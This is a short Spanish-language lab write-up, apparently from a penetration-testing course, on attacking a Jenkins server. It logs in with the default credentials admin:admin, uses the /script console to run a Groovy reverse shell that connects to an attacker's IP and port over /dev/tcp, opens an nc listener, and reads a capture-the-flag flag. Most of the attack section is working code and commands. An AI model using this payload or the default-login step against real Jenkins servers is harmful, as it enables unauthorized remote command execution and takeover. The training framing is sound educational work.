

# Laboratorio: Jenkins 🤵

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---
2. Nos loguemos con las credenciales `admin:admin` en el panel de **Jenkins**.
---
3. En la **esquina inferior derecha**  vemos la versión de `Jenkins` 

<p align="center">
    
</p>

---

# Laboratorio: Attacking Jenkins 🤺

1. Vamos a la consola de `/script` para ejecutar comandos
---
2. Ahora ejecutamos una reverse shell escrita en **groovy**
* **Reverse Shell Groovy**
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[Port];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
---
3. Nos ponemos en escucha: **`nc -lvnp 4444`**
---
4. Ahora leemos la **flag** 🏴
```bash
root@app02:/var/lib/jenkins3# cat flag.txt 
f33ling_gr00000vy!
```